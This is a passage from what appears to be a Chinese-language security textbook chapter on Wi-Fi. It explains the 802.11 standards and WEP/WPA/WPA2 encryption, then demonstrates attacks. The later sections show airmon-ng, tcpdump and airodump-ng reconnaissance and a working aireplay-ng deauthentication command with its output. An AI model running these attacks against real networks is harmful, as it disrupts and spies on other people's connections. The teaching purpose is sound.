由于它们只是无线电信号，只要你在发射器范围内，就可以拦截它们。你也可以发送自己的信号。我们传统上称为无线保真（Wi-Fi）的是一组归类为 802.11 的规范，由电气和电子工程师学会（IEEE）管理。不过，802.11 不是唯一的一组无线规范。另一种使用无线信号进行传输的通信协议是 Bluetooth。这两者都非常常见，且容易配置错误。

即使没有配置错误，协议本身也存在足够多的问题，足以引发被攻破的可能性。这些通信方式对业务运营至关重要，但它们也暴露在风险中。了解协议以及协议如何被攻破非常重要。只要你有物理上的接近度，使用其中至少一种，就可能能够进入系统和网络。

## Wi-Fi

Wi-Fi 包括属于 IEEE 802.11 标准集的一组标准。Wi-Fi 实际上是 Wi-Fi 联盟的商标，用于通过认证测试的设备。无论你称它为 Wi-Fi 还是 802.11，我们谈论的是同一件事——通过无线连接进行网络连接。这看起来很简单，一般来说，如果你在使用它，确实如此。然而，自推出以来，Wi-Fi 已经经历了多个版本，在其中一些版本中，对 Wi-Fi 运行方式进行了重大更改。

首先，802.11 是针对物理层和数据链路层的一组规范。物理层指定用于传输数据的调制方案，还指定使用的频谱。802.11 的第一个版本规定在 2.4 GHz 频段内传输，数据速率在 1 到 2 Mbps 之间。该频率范围与其他技术使用的范围相同，因为它属于工业、科学和医疗（ISM）频段。微波炉和一些无绳电话等设备与 Bluetooth 设备和 Wi-Fi 在同一频谱内运行，使其有点拥挤，并导致潜在的冲突。

虽然早期版本 802.11a 支持在 5 GHz 和 2.4 GHz 频段内传输，但它并未被广泛实现，尤其是在消费领域。直到 2009 年，802.11n 发布后，5 GHz 才成为 Wi-Fi 网络可行的频率。此后，802.11ac 和拟议中的 802.11ax 均被指定在 5 GHz 频段工作。这当然会造成问题，因为 Wi-Fi 接口中的旧无线电只能工作在其调谐的频率上。如果网络决定在 5 GHz 频段采用 802.11ac，但仍拥有许多 802.11g 网卡，那些网卡将无法连接到新网络。

802.11n 大幅提升了无线接口的数据吞吐能力。它通过使用多入多出（MIMO）实现了这一点。这意味着一个接口可以使用多个信道进行输入和输出，并将它们绑定在一起。不再受限于 54 Mbps，使用 802.11n 可以实现高达 600 Mbps 的速度。如果你的接入点支持 MIMO 但你的网卡不支持，你仍然会受限于较低的带宽，因为你的网卡最多只能以单信道 54 Mbps 工作，无法做得更好。

802.11 使用信道来防止一组信号干扰另一组信号。在美国，2.4 GHz 频段可用于 Wi-Fi 通信的信道有 11 个。信道是一个有界的频率范围，很像电视或特定电台的信道。每个信道都被分配一个用于传输的频率范围，具体取决于所需的带宽。世界某些地区允许使用 13 个信道。这取决于管理电磁传输频谱的监管机构。如果你使用的是支持在 5 GHz 频段传输的 802.11 版本，则还有其他可用信道，但这也因国家而异。与 2.4 GHz 频段相比，全球对 5 GHz 频段的使用一致性较差。802.11 的后续版本在 60 GHz 频段运行或将运行，该频段有六个可用信道。

802.11 版本之间的另一个不同之处在于信号预期传输的距离。某些 802.11 版本只能传输约 11 英尺。其他版本预期可传输几百英尺。这取决于墙壁的数量和成分而有很大差异。在室外，Wi-Fi 信号可以传输得远得多，因为没有任何东西阻碍信号。室内则完全不同。就不进入建筑物而捕获信号而言，你需要距离建筑物多远，将取决于最近的接入点距离外墙有多近以及有多少扇窗户。窗户通常会让信号无阻碍地穿出。

从拓扑角度来看，设置 Wi-Fi 网络有两种不同的方式。其中一种比另一种更常见，但仍然可能两种都存在。除此之外，你还需要关心 Wi-Fi 网络如何处理身份验证和加密。身份验证和加密机制都提供了可能的方式


攻击无线网络。这在公司允许员工将个人设备连接到企业网络的情况下尤其如此。

## Wi-Fi 网络类型

你将会遇到两种类型的无线网络。我们可以在这里讨论拓扑，因为它在技术上是相关的，尽管它可能比有线网络更难以概念化。不过，我们还是试一下吧。第一种网络类型，也是较少见的一种，尤其是在商业环境中，是临时网络。临时网络是指不存在任何中央路由或交换设备的网络。图 11.1 展示了一个连接了不同设备类型的临时无线网络。你可以把它看作是一个动态网状网络。每个设备直接与另一个设备通信。当两个设备需要相互通信时，连接会动态建立。当设备加入网络时，它会将其信息共享给其他设备。然后，其他设备就会知道在需要时如何连接到该设备。

图 11.1 临时无线网络


这并不是说任何人都可以连接到临时网络。当有人启动临时网络时，他们必须为网络命名。除了网络名称外，访问可能还需要密码。在临时网络中，所有设备必须彼此在通信范围内，因为没有其他设备用于将消息转发到远处的其他设备。

虽然临时网络易于设置且速度可能很快，但管理它们非常困难，而且它们绝对不适合企业环境。相反，存在基础设施网络。基础设施网络有一个充当交换机的中心设备。计算机不会直接相互通信。相反，所有消息都通过接入点传输。图 11.2 显示了一个基于基础设施的网络。交换机和接入点之间的区别在于交换机控制电气信号。鉴于此，交换机确实决定了系统是否获得流量。接入点无法控制系统是否看到流量，因为所有内容都在空中。你需要的只是一个可以捕获信号的无线电。

图 11.2 无线基础设施网络


为了演示这一想法，请看图 11.3。这是一个在无线接口上启用了监听模式的 Wireshark 捕获。这意味着 Wireshark 获取一切内容，直到无线电头部，这是帧的第 1/2 层头部集合。此特定系统未连接到任何无线网络。你可以把它想象成有线接口断开连接。既然如此，Wireshark 不应该看到任何内容，而且如果关闭监听模式，即使开启了混杂模式，捕获中也不会有任何内容。

图 11.3 无线电流量的 Wireshark 捕获


不过，你在捕获中可以看到大量流量。这是因为无线网络非常“话痨”。它们必须如此，因为没有电气连接来告知系统存在网络。不过，一旦开启监听模式，你就可以看到接入点与客户端之间的消息。例如，接入点会定期发送信标帧。这些帧用于宣布该区域内网络的存在。此外，客户端会发送探测请求以识别该区域内的网络。当发送探测请求时，接入点会发送探测响应。如果你查看该区域的无线网络列表，可能会看到操作系统指示它正在查找该区域内的网络。这意味着它正在发送探测消息。为了连接到网络，你首先需要识别该网络。

## Wi-Fi 身份验证

Wi-Fi 网络上存在不同形式的身份验证。我们将首先介绍简单的计算机级身份验证。这是你的客户端与网络关联的过程。为此，你的系统会发送探测请求以识别该区域内的无线网络。你的客户端正在查找服务集标识符（SSID），这基本上就是你的网络名称。不过，一个网络中可能有多个携带相同 SSID 的接入点，因为你可能拥有一个大型设施，而单个接入点的信号不足以覆盖所有区域。当多个接入点使用相同的 SSID 时，为了区分它们，存在基本服务集标识符（BSSID）。它看起来像 MAC 地址，并为客户端在需要时与特定接入点通信提供了一种方式。你可以在图 11.4 中看到多个 BSSID 使用相同 SSID 的示例。

图 11.4 单个 SSID 的多个 BSSID

| | | | | | | | | |
|---|---|---|---|---|---|---|---|---|
| ☐ | [Hidden S... | FA:AA:A0:4D:3... | 9 | 2.4GHz | WPA/WPA2 Pe... | FA:AA:A0 | b/g/n | -65 |
| ☐ | bogey | 3C:7A:8A:4B:9B... | 44 | 5GHz | WPA/WPA2 Pe... | ARRIS | ac | |
| ☑ | CasaChien | 70:3A-CB:52:A... | 11 | 2.4GHz | WPA2 Personal | Google | b/g/n | -46 |
| ☑ | CasaChien | 18:6D:C7:7D:EE... | 11 | 2.4GHz | WPA2 Personal | TP-LINK | b/g/n | -33 |
| ☑ | CasaChien | 70:3A-CB:4A:41... | 149 | 5GHz | WPA2 Personal | Google | ac | -53 |
| ☑ | CasaChien | 70:3A-CB:15:F5... | 1 | 2.4GHz | WPA2 Personal | Google | b/g/n | -42 |
| ☑ | CasaChien | 70:3A-CB:52:A... | 149 | 5GHz | WPA2 Personal | Google | ac | -55 |
| ☑ | CasaChien | 18:6D:C7:7D:C... | 149 | 5GHz | WPA2 Personal | TP-LINK | ac | -31 |
| ☑ | CasaChien | 70:3A-CB:15:F5... | 149 | 5GHz | WPA2 Personal | Google | ac | -44 |
| ☑ | CasaChien | 70:3A-CB:4A:41... | 6 | 2.4GHz | WPA2 Personal | Google | b/g/n | -49 |
| ☐ | CenturyLi... | C4-EA-1D:D3:78... | 6 | 2.4GHz | WPA/WPA2 Pe... | Technicolor | n | -42 |
| ☐ | CenturyLi... | C4-EA-1D:D3:78:3F | 48 | 5GHz | WPA/WPA2 Pe... | Technicolor | ac | -42 |
| ☐ | CenturyLi... | C4-EA-1D:D3:78:3F | 6 | 2.4GHz | WPA/WPA2 Pe... | Technicolor | n | -46 |
| ☐ | CenturyLi... | C4-EA-1D:D3:80:1... | 44 | 5GHz | WPA/WPA2 Pe... | Technicolor | ac | |

让客户端连接到接入点的过程要求它与接入点进行身份验证。这可能是一个简单的过程，特别是如果接入点启用了开放式身份验证。这样做是为了允许客户端与网络开始对话。实际身份验证，特别是用户级身份验证，会在稍后进行。客户端发送身份验证请求，接入点通常会回复身份验证响应，指示“成功”。这允许客户端进入下一阶段。

客户端经过身份验证后，下一步是将客户端与网络关联。这涉及客户端向接入点发送关联请求。在关联请求中，客户端（也称为站点）发送其功能。这将包括其支持的版本和速度。这允许接入点和站点协商未来的通信方式。在图 11.5 中，你可以看到使站点经过身份验证并与接入点关联所需的流程图。

图 11.5 身份验证和关联步骤


当然，这只是让站点加入网络所需过程的一部分。可能还需要用户级身份验证。这种身份验证可能会使用 IEEE 的 802.1X 标准。802.1X 允许网络级身份验证。它也可用于有线网络，以确保没有流氓设备在使用。较新版本的 Wi-Fi 加密支持企业身份验证，这可能会使用 802.1X 来确保用户有权访问网络。

## Wi-Fi 加密

关于无线网络的最初担忧，尤其是当该技术开始用于商业用途时，是隐私。有线网络被认为是私密的，因为要查看有线网络上的任何传输，攻击者必须拥有对网络的物理访问权限。虽然这并不完全正确，但仍有要求为无线网络提供类似的隐私。于是，有线等效隐私（WEP）应运而生。WEP 使用 40 位密钥或 104 位密钥。40 位密钥与 24 位初始化向量连接，为预共享密钥（PSK）值添加随机性，以创建用于 Rivest Cipher 4（RC4）加密算法的 64 位密钥。当你在接入点中配置加密密钥时，你输入了 10 个十六进制数字。每个十六进制数字为 4 位，因此 10 个十六进制数字即为所需的 40 位。


密钥值较小，原因是美国政府对加密技术出口的限制。这些限制最终被解除，允许使用更大的密钥值。

一旦加密限制解除，供应商可以使用网络管理员提供的 104 位密钥。连同 24 位初始化向量，这就生成了一个 128 位密钥，使密钥长度翻倍，但密钥强度呈指数级提高。不过，这假设初始化向量是真正随机的。事实证明，WEP 使用的初始化向量并非真正随机。这意味着，只要拥有足够多的数据，就可以确定密钥，从而导致 WEP 加密被破解。幸运的是，还有其他可用的加密机制。

## Wi-Fi 保护访问 (WPA)

加密很复杂，加密方案始终处于持续审查之下。如前所述，WEP 已被破解。技术的进步，尤其是计算能力的提升，使破解加密变得容易得多，这通常限制了新加密机制的使用寿命。正因为如此，你或许能理解为什么开发新的数据加密方法很费时。WEP 被认为存在问题，但无法轻易用长期方案替换。作为一种过渡措施，Wi-Fi Alliance 推出了 Wi-Fi 保护访问 (WPA)。WPA 可以在无需任何硬件更改的情况下实现。使 WEP 能够工作的硬件也可用于 WPA。WPA 可通过固件升级启用。

WPA 引入了临时密钥完整性协议 (TKIP)。与 WEP 将初始化向量与预共享密钥 (PSK) 串联不同，TKIP 对密钥进行混合。这部分原因使得支持 WEP 的设备可以与 WPA 一起工作。以不同方式派生的相同密钥，可以输入到相同的 RC4 算法中以执行消息加密。TKIP 也不像其他加密系统中常见的那样使用会话密钥。相反，它使用每包密钥。每个数据包都有自己的加密和解密密钥。这就是其临时部分，因为每个密钥都具有时效性。这是为了解决 WEP 的一个问题：由于初始化向量算法的弱点，一组帧可能会提供足够的数据来推导密钥。

就完整性而言，传输中的消息可能被拦截和篡改。WEP 使用循环冗余校验 (CRC) 来验证消息的完整性。这被认为不足。相反，WPA 实现了消息完整性检查 (MIC)，有时也称为消息身份验证码 (MAC)。这不要与介质访问控制 (MAC) 地址混淆。这个 MAC 用于验证已发送消息的完整性和真实性。接收方会将其自身计算的 MAC 与消息中包含的 MAC 进行比对。如果 MAC 匹配，则消息在传输过程中未被篡改或以其他方式损坏。

WPA 支持两种身份验证模式。第一种模式基本上与 WEP 中使用的密钥功能相同，称为 WPA-Personal。这是一种预共享密钥 (PSK) 方法。预共享密钥既用作密码，也提供与初始化向量一起用于生成 RC4 加密算法所用加密密钥的密钥。第二种身份验证模式称为 WPA-Enterprise，使用可扩展身份验证协议 (EAP)。EAP 可用于支持不同的后端密码存储。例如，你可以将 WPA-Enterprise 与现有的企业用户数据库和身份验证方案（如 Windows Active Directory）一起使用。EAP 用于传输身份验证信息以及成功或失败响应。

另一种身份验证方式是 Wi-Fi 保护设置 (WPS)。这可能需要对访问点进行物理控制，因为可能涉及按下按钮。完成 WPS 可能还需要个人身份识别号码 (PIN)。它用于处理密钥分发，以便客户端设备的用户不知道密钥是什么。密钥存储在端点上，并在设备上线时用于与访问点通信。但是，WPS 存在一些问题。由于 WPS 实现中存在问题，WPS 中使用的 PIN 可以被恢复。

## Wi-Fi 保护访问 2 (WPA2)

Wi-Fi 保护访问 2 (WPA2) 是一项获批准为 IEEE 802.11i-2004 的标准，这意味着它是对原始 802.11 的修正。还有其他几项修正，包括提供处理 MIMO 流以及不同信道和带宽的功能的修正。你可能熟悉 802.11b、802.11g、802.11n 等。WPA2 旨在成为解决 WEP 问题的长期方案。WEP 的一些问题在使用 WPA 时仍然存在，因为 WPA 继续使用 RC4 流密码。这是一种较旧的加密密码，WPA 仍然使用初始化向量。实现不良的初始化向量可能导致密钥被推导，就像 WEP 一样。

WPA2 提高了 Wi-Fi 加密实现的整体安全性。加密中最大的问题之一始终是密钥保护。WPA2 引入了早期实现中不存在的四次握手。四次握手旨在改进密钥保护。此过程中使用了两个密钥。第一个是成对主密钥 (PMK)，它会随时间保留，因此必须受到保护且不传输。派生出的密钥是成对瞬时密钥 (PTK)。还有一个从握手中得出的组临时密钥 (GTK)，它用于广播或多播流量，这意味着它是一个在多个设备之间共享的密钥。

图 11.6 展示了四次握手过程的图示。首先，访问点生成一个随机数，这是一种临时随机值。访问点将其随机数连同密钥重放计数器发送到站点，该计数器用于匹配已发送的消息，以便丢弃任何重放的消息。站点此时拥有生成 PTK 所需的一切。站点生成其自身的随机数，连同与访问点发送的那个匹配的密钥重放计数器，将其发送到访问点。站点还发送一条消息完整性代码 (MIC，消息身份验证码)，以确保已发送的消息未被篡改。

## 图 11.6 WPA2 四次握手


一旦访问点拥有站点的随机数，它就可以派生出自己的 PTK。访问点将 GTK 连同 MIC 发送到站点。站点发送确认，四次握手完成。四次握手完成身份验证，因为你必须拥有正确的密钥才能完成握手。

与 WPA 一样，提供个人和企业身份验证，握手过程相同，无论使用哪种身份验证方法。个人模式需要预共享密钥。企业身份验证使用 802.1X 处理用户级身份验证，这意味着连接到网络的人必须提供用户名和密码。使用的身份验证框架是可扩展身份验证协议 (EAP) 及其不同的变体。图 11.7 显示了不同 EAP 变体及其他可能使用的身份验证协议的列表。这是 Linux 系统上配置页面的截图，用于设置无线网络连接。

两种常见的变体是轻量级可扩展身份验证协议 (LEAP) 和受保护的可扩展身份验证协议 (PEAP)。这些框架（连同其他框架，例如 EAP-TLS）用于确保身份验证通过受保护的通道进行，因此任何身份验证参数都不会以明文发送。此外，任何密钥交换都通过受保护的通道进行。通常，这是通过传输层安全 (TLS) 协议实现的。这就是加密 Web 流量的方式。它使用证书以及使用公钥和私钥的非对称密钥加密。


## 图 11.7 Linux 下的无线配置

## 自带设备 (BYOD)

你很可能至少拥有一台移动设备，无论是智能手机、平板电脑还是笔记本电脑。它也可能是像 Microsoft Surface 这样的混合设备。由于这些设备普及且易于使用，人们随身携带它们，并且几乎随时都带着至少一部智能手机。公司通常希望利用这些计算资源，因此可能会制定政策，规定如何允许人们在企业网络上使用自己的设备。此政策通常被称为自带设备 (BYOD)。公司可能要求设备获得批准或满足某些最低要求。

允许个人设备接入其网络的公司，通常是通过无线网络（因为移动设备通常没有有线连接），可能对任何设备连接持开放态度。这意味着它们可能没有一种网络访问控制 (NAC) 形式来限制哪些设备可以与其无线网络通信。它们可以通过阻塞 MAC 地址来实现此目的，以防止不在白名单上的人甚至无法进行用户级身份验证。如前所述，使用企业身份验证的 WPA2 也通过要求用户进行身份验证来提供保护。

关于通过 Wi-Fi 访问，还需要考虑网络隔离。企业通常将 Wi-Fi 客户端放入一个隔离网络中，该网络表现得就像位于企业之外一样。要访问内部企业资源，Wi-Fi 网络上的任何人（即使在身份验证之后）都必须使用虚拟专用网络连接才能访问业务资产。他们使用 WPA2-Enterprise 身份验证和加密连接到受密码保护的 Wi-Fi 网络，然后必须进一步进行身份验证才能打开通往网络内部的隧道。这意味着即使你访问了员工 Wi-Fi 网络（通常与可能也提供的访客 Wi-Fi 网络分开），你仍然无法轻松访问业务资产。

然而，采用 BYOD 的公司可能使访问其资源变得更加容易。当然，BYOD 不是员工通过 Wi-Fi 访问企业资源的唯一方式，但如果启用了 BYOD，很可能意味着没有关于哪些设备可以连接的限制，这会阻止某人甚至无法提供身份验证凭据以获取访问权限。

## Wi-Fi 攻击

攻击 Wi-Fi 网络有多种方式。首先，与任何类型的攻击一样，你可以从侦察开始。可以使用 Wireshark 和其他工具来完成这一点。在嗅探时，你需要生成流量。实现这一点的一种方法是强制终端对其自身进行身份验证。你可以使用去认证攻击来做到这一点。另一种攻击称为邪恶双胞胎。这是一个流氓接入点，但它模仿合法的接入点。还有一种称为密钥重装攻击的攻击，有时称为 KRACK，可用于强制终端以攻击者可以轻松解密的方式发送消息。

## 嗅探

如前所述，Wireshark 可用于捕获包含无线电头部的网络流量。在尝试收集信息时，无线电头部非常重要。不过，它们不是唯一携带信息的头部。你会希望查看来自接入点的所有信标，以及可能在站点和接入点之间发送的任何身份验证消息。要查看整个协议栈，需要将无线接口设置为监控模式。实现这一点的一种方法是使用 aircrack-ng 软件包中的 airmon-ng 程序。在以下代码清单中，你可以看到使用 airmon-ng 从无线接口创建监控接口。最终，你将获得一个可用于收集无线电和其他流量的新接口。

### 使用 airmon-ng

```
root@quiche:~# airmon-ng start wlan0

Found 3 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

PID Name
640 wpa_supplicant
30835 NetworkManager
30859 dhclient
```

| PHY | 接口 | 驱动程序 | 芯片组 |
|---|---|---|---|
| phy0 | wlan0 | rt2800usb | Ralink Technology, Corp. RT5372 |

```
(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
(mac80211 station mode vif disabled for [phy0]wlan0)
```

开头你会注意到一些警告。这是因为所运行的 Linux 版本管理着网络接口。airmon-ng 需要能够对网络接口进行更改，因此最好不要运行管理接口的进程。虽然此示例在 Linux 下运行，但 aircrack-ng 确实有 Windows 软件包，相同的程序也可在那里使用。创建监控接口后，你可以像使用任何其他网络接口一样使用它。你可以使用 tcpdump 捕获通过监控接口的所有网络流量。在以下清单中，你可以看到使用 tcpdump 和接口 wlan0mon（由 airmon-ng 创建）的示例。

### 将 tcpdump 与监控接口一起使用

```
root@quiche:~# tcpdump -i wlan0mon
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on wlan0mon, link-type IEEE802_11_RADIO (802.11 plus radiotap header), capture size 262144 bytes
20:49:20.747433 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Data IV:8cae Pad 20 KeyID 2
20:49:21.190521 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send
RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:21.387878 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Probe Request
(WifiMyqGdo) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.403289 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Probe Request
(WifiMyqGdo) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.537165 1.0 Mb/s 2457 MHz 11b -47dBm signal antenna 1 Probe Request
(ZoeyWasHere) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.589809 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Acknowledgment
RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:21.689230 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send
RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:23.247016 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Acknowledgment
RA:ec:aa:a0:4d:31:a8 (oui Unknown)
20:49:23.250814 1.0 Mb/s 2457 MHz 11b -65dBm signal antenna 1 Acknowledgment
RA:f6:aa:a0:4d:31:a8 (oui Unknown)
20:49:23.594399 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Acknowledgment
RA:64:1c:b0:94:ba:57 (oui Unknown)
```

### 将 tcpdump 与监控接口一起使用（续）

```
20:49:23.602831 1.0 Mb/s 2457 MHz 11b -21dBm signal antenna 1 Beacon (CasaChien) [1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 Mbit] ESS CH: 11, PRIVACY
20:49:24.258485 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send
RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:24.635482 1.0 Mb/s 2457 MHz 11b -57dBm signal antenna 1 Probe Request
(CasaChien) [1.0 2.0 5.5 11.0 6.0 9.0 12.0 18.0 63.5 Mbit]
20:49:24.656324 1.0 Mb/s 2457 MHz 11b -51dBm signal antenna 1 Acknowledgment
RA:18:d6:c7:7d:ee:11 (oui Unknown)
20:49:24.658753 1.0 Mb/s 2457 MHz 11b -51dBm signal antenna 1 Acknowledgment
RA:70:3a:cb:52:ab:fc (oui Unknown)
```

从 tcpdump 输出中，你可以看到所有无线电流量，包括信号信息。你可以看到通信所使用的频率，所有消息中均为 2457 MHz。你也可以看到信号强度。它以分贝为单位，相对于毫瓦，表示为 dBm。分贝是使用对数尺度的两个值的比率。
不过，dBm 不是一个比率。它是一个绝对值，因为它使用毫瓦作为参考点。这是衡量无线网络信号强度的标准方法。你能获得的最佳信号是 –10 dBm。你可以看到 –19 dBm 到 –67 dBm 的值。这些仍然是可用的信号。在无线网络中，你能获得的最低值是 –100。超过这个值的信号无法使用。

从 tcpdump 输出中，你可以看到针对网络的探测请求。这些探测请求来自曾经连接过这些网络的设备。例如，有一个带有无线功能的车库门开启器正在尝试查找网络 WiFiMyqGdo。这是设备出厂时配置的网络。如果你尝试进行邪恶双胞胎攻击，这些信息可能很有用。不过，你可能希望从数据包捕获中查看其他信息。你可以做的就是导出数据包捕获。在以下清单中，你可以看到从 tcpdump 导出数据包捕获的示例。因为我们使用的是监控接口，所以仍然会接收所有无线电消息。

### 从监控接口写入捕获

```
root@quiche:~# tcpdump -w radio.pcap -i wlan0mon
tcpdump: listening on wlan0mon, link-type IEEE802_11_RADIO (802.11 plus radiotap header), capture size 262144 bytes
^C125 packets captured
126 packets received by filter
0 packets dropped by kernel
```

有了保存的数据包捕获后，你可以在类似 Wireshark 的程序中打开它。图 11.8 更详细地显示了先前提到的同一探测请求。在这里，你不仅可以看到 SSID，还可以看到站点请求的某些功能。你还将看到请求的信道和设备的供应商 ID。


这是表明它是车库门开启器的一部分。发送设备的供应商 ID 为 Chamberlain Group，即拥有 LiftMaster 车库门开启器的公司。你还会看到探测中包含针对 Broadcom 的厂商特定信息。Broadcom 是常见的无线芯片组制造商。这表明，预期无线设备了解 Broadcom 的功能，并期望使用其中一些功能进行通信。

图 11.8 Wireshark 中的探测请求


Wireshark 还可以提供 tcpdump 中无法看到的无线连接的其他详细信息。在图 11.9 中，你可以看到无线电头信息。这包括信道频率和编号以及信号强度。从理论上讲，信号强度可以表明你所查看的无线电的接近程度。这确实假设所有无线电和天线大致等效，意味着信号强度是距离的函数。但在实践中，还有许多其他因素，包括信号穿过的任何材料。例如，信号很难很好地穿过混凝土或金属。

图 11.9 Wireshark 中的无线电头信息


## 去认证攻击

去认证攻击会发送消息，强制客户端与接入点重新认证。本质上，它会让任何客户端登出，迫使客户端重新建立关联。这是使用 aircrack 工具套件的另一个场景。在此示例中，我们将使用 aireplay-ng。如讨论所述，接口需要处于正确信道，才知道在什么频率上发送消息。在 Linux 下，这是通过 iwconfig 程序完成的。在 Windows 下，这是通过无线接口的设备属性完成的。在以下代码中，你可以看到为接入点设置正确信道，然后运行去认证攻击。你将看到发送到客户端的 10 条去认证消息。

```
root@quiche:~# sudo iwconfig wlan0mon channel 6
root@quiche:~# aireplay-ng -0 10 -a C4:EA:1D:D3:78:39 -c 64:52:99:50:48:94 wlan0mon
18:22:59  Waiting for beacon frame (BSSID: C4:EA:1D:D3:78:39) on channel 6
18:23:00  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|62 ACKs]
18:23:00  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|60 ACKs]
18:23:01  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|34 ACKs]
18:23:01  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|32 ACKs]
18:23:02  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|61 ACKs]
18:23:02  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|57 ACKs]
18:23:03  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|59 ACKs]
18:23:03  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 1|56 ACKs]
18:23:04  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|55 ACKs]
18:23:05  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|43 ACKs]
```

要执行此攻击，你需要知道接入点的 BSSID。这是设备的 MAC 地址，因此可以用于帧头中。你还需要知道要在其上运行去认证攻击的客户端的 MAC 地址。你还可以通过省略 -c 参数（即客户端 MAC 地址）来针对所有客户端运行去认证。要获取运行此攻击所需的一些其他详细信息，你可以使用 airodump-ng，这是 aircrack-ng 程序套件中的另一个程序。在以下清单中，你可以看到 airodump-ng 的输出。你将看到运行 airodump 的系统范围内的所有 BSSID。这会为你提供 BSSID、功率电平、信标数量、信道编号和其他详细信息。在底部，你可以看到客户端及其关联的 SSID。

## 使用 airodump-ng 获取信息

CH 6 ][ Elapsed: 6 mins ][ 2018-12-16 18:22

| BSSID | 信号强度 | 信标 | 数据包 | 每秒 | 信道 | 速率 | 加密 | 密码算法 | 认证 | ESSID |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 18:D6:C7:7D:EE:11 | -21 | 309 | 955 | 0 | 11 | 195 | WPA2 | CCMP | PSK | CasaChien |
| C4:EA:1D:D3:78:39 | -36 | 218 | 16 | 0 | 6 | 130 | WPA2 | CCMP | PSK | CenturyLink5191 |
| 70:3A:CB:52:A8:FC | -40 | 211 | 0 | 0 | 11 | 130 | WPA2 | CCMP | PSK | CasaChien |
| 70:3A:CB:15:F5:A1 | -41 | 139 | 121 | 0 | 1 | 130 | WPA2 | CCMP | PSK | CasaChien |
| FA:8F:CA:6C:2D:6D | -42 | 160 | 0 | 0 | 11 | 130 | OPEN | | | Master Bedroom TV.m |
| 70:3A:CB:4A:41:3B | -44 | 211 | 156 | 0 | 6 | 130 | WPA2 | CCMP | PSK | CasaChien |
| 92:CD:B6:13:FE:3C | -55 | 196 | 0 | 0 | 6 | 65 | OPEN | | | HP-Setup>3c-M277 LaserJet |
| 70:8B:CD:CD:92:30 | -65 | 164 | 17 | 0 | 11 | 195 | WPA2 | CCMP | PSK | Hide_Yo_Kids_Hide_Yo_Wifi |
| EC:AA:A0:4D:31:A8 | -67 | 0 | 0 | 0 | 9 | 195 | WPA2 | CCMP | PSK | HOME-C377-2.4 |
| A0:04:60:21:34:12 | -66 | 0 | 6 | 0 | 9 | -1 | WPA | | | <length: 0> |

| BSSID | 客户端 | 信号强度 | 速率 | 丢失 | 帧 | 探测 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| (未关联) | 94:9F:3E:01:10:FB | -36 | 0 - | 0 | 23 | Sonos_LHe9qyhhvuecJ2UnQWM67LjZ9g |
| (未关联) | F0:18:98:0C:34:69 | -38 | 0 - 1 | 0 | 2 | |
| (未关联) | F0:6E:0B:69:60:1B | -40 | 0 - 1 | 0 | 12 | |
| (未关联) | 78:28:CA:09:8E:41 | -46 | 0 - 1 | 0 | 45 | Sonos_LHe9qyhhvuecJ2UnQWM67LjZ9g |
| (未关联) | 94:9F:3E:00:FD:83 | -46 | 0 - 0 | 0 | 41 | Sonos_LHe9qyhhvuecJ2UnQWM67LjZ9g |
| (未关联) | 94:9F:3E:0F:1D:81 | -46 | 0 - 0 | 0 | 45 | Sonos_LHe9qyhhvuecJ2UnQWM67LjZ9g |
| (未关联) | 38:8B:59:20:E9:DF | -48 | 0 - 1 | 0 | 21 | |
| (未关联) | 90:CD:B6:13:7E:3C | -50 | 0 - 1 | 0 | 34 | ZoeyWasHere |
| (未关联) | 64:52:99:50:48:94 | -64 | 0 - 1 | 0 | 22 | WifiNyGdo |
| (未关联) | C0:97:27:5A:2D:F1 | -68 | 0 - 1 | 0 | 2 | |
| (未关联) | 34:7C:25:25:AB:92 | -56 | 0 - 1 | 0 | 2 | |
| 18:D6:C7:7D:EE:11 | 38:F7:3D:04:92:79 | -34 | 0 - 0 | 22 | 517 | |

## 使用 airodump-ng 获取信息（继续）

```
18:D6:C7:7D:EE:11  64:1C:B0:94:BA:57  -46   0   - 1e   0   17
18:D6:C7:7D:EE:11  94:9F:3E:0F:1D:80  -46   54  - 24   0   136
18:D6:C7:7D:EE:11  F0:81:73:95:8C:47  -58   0e- 6e   0   113
18:D6:C7:7D:EE:11  94:9F:3E:00:FD:82  -44   18  - 24   0   7
70:3A:CB:15:F5:A1  94:9F:3E:01:10:FA  -36   54  - 24   0   38
70:3A:CB:15:F5:A1  00:FC:8B:AB:0B:B8  -44   0e- 6e   0   17
70:3A:CB:4A:41:3B  78:28:CA:09:8E:40  -46   48  - 24   0   80
```

